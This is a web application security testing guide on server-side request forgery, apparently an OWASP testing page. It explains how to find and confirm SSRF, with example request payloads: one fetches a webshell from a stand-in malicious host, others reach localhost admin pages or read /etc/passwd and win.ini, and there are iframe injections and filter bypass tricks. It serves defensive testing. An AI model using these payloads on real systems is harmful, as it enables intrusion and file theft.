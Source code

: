 # Testing for Server-Side Request Forgery

## Summary

Often web applications may have to interact with internal or external resources in order to provide a certain functionality, with the expectation tha only the service providing that functionality will be used, but often such functionality processes user data and if not handled properly it can open the door for certain injection attacks that we call SSRF. A successful SSRF attack can grant the attacker access to restricted actions, internal services, internal files within the application or the organization. In some cases it can even lead to RCE.

Some of the main mitigation techniques include implementing IP filtering and URL filtering. You can find out more on the
[OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

## Test Objectives

- Identify injection points (External resource calls, API calls)
- Test if the SSRF is exploitable
- Asses the severity of the vulnerability

## How to Test

When testing for SSRF we are trying to trick the server into loading/writing unintended content. The most common test is for local and remote file inclusion, but there is another facet to SSRF, a trust relationship that often arises with server-side request forgery where the application server is able to interact with other back-end systems that are not directly reachable by users. These systems often have non-routable private IP addresses or are restricted to certain hosts. Since they are protected by the network topology, they often lack more sophisticated controls.

Such internal systems often contain sensitive data or functionality.

If we have the following request:

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=about.php
```

We can try the following payloads:

Return the content of an external resource like a webshell.

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=https://malicioussite.com/shell.php
```

Use the localhost/loopback interface to access content restricted to the host only. This mechanism implies that if you have access to the host than you have enough privileges to directly access the `admin` page.

These kind of trust relationships, where requests originating from the local machine are handled differently than ordinary requests, is often what makes SSRF into a critical vulnerability.

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=http://localhost/admin  #Alternative http://127.0.0.1/admin
```

Fetch a local file

```bash
GET /page HTTP/1.0
Content-Type: application/x-www-form-urlencoded

page=file:///etc/passwd
```

All of the examples above apply to POST requests, they can also be injected into headers if the header data is used in such a way.
One important note on SSRF with post requests is that the SSRF might turn into a Blind SSRF, because the application might not return anything, but anyway that data might be used in another functionality like PDF reports for example.

You can find more on Blind SSRF [here](https://portswigger.net/web-security/ssrf/blind), or in the [References section](#references)

### PDF Generators

There are some cases where server converts uploaded file to a pdf.Try injecting `<iframe>`, `<img>`, `<base>` or `<script>` elements or CSS url() functions pointing to internal services.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height=”400">
```

### Common filter bypass

Some applications block references to `localhost` and `127.0.0.1`, this can be circumvented by:

- Using alternative IP representation such as such as 2130706433, 017700000001, or 127.1 which evaluated to 127.0.0.1
- String obfuscation
- Registering your own domain that resolves to 127.0.0.1

Sometimes the application allows input that matches a certain expression, like a domain. That can be circumvented if the URL schema parser is not properly implemented.

- Using the `@` character: `https://expected-domain@attacker-domain`
- URL fragmentation with the `#` character: `https://attacker-domain#expected-domain`
- URL encoding
- Fuzzing
- Combinations of all of the above

You can find more payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

## Tools

- Burpsuite
- ZAP

## References

- [SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [SSRF](https://portswigger.net/web-security/ssrf)
- [Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
